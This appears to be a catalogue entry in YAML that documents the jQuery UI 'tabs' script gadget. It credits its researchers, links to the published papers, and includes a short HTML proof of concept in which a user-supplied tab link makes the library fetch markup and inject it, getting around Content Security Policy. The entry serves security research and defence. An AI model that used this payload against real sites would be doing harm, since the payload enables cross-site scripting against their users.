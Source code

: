 ```yaml
---
description: The official jQuery user interface library.
github: jquery/jquery-ui
gadgets:
  Latest:
    authors:
      - twitter:slekies
      - twitter:kkotowicz
      - twitter:sirdarckcat
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - ul-tag
      - li-tag
      - a-tag
      - id-attr
      - href-attr
      - before-func-call
    pocs:
      - description: The [jQuery UI](https://github.com/jquery/jquery-ui) `tabs` function loads the content of the `href` attribute via an `XMLHttpRequest` and insert it into the DOM using `innerHTML`.
        code: |
          <script nonce="secret" src="https://code.jquery.com/jquery-3.7.1.js"></script>
          <script nonce="secret" src="https://code.jquery.com/ui/1.14.1/jquery-ui.js"></script>
          <script nonce="secret">
            $( function() { $( "#tabs" ).tabs() });
          </script>

          <!-- user input -->
          <div id="tabs"><ul><li><a href="[current-location]/assets/xss/index.js"></a></li></ul></div>
    links:
      - https://github.com/google/security-research-pocs/blob/master/script-gadgets/repo/csp/sd/jqueryui.php
      - https://github.com/google/security-research-pocs/blob/master/script-gadgets/repo/csp/sd/jqueryui_exploit.php
      - http://sebastian-lekies.de/slides/appsec2017.pdf
      - https://acmccs.github.io/papers/p1709-lekiesA.pdf
      - https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf
---
```


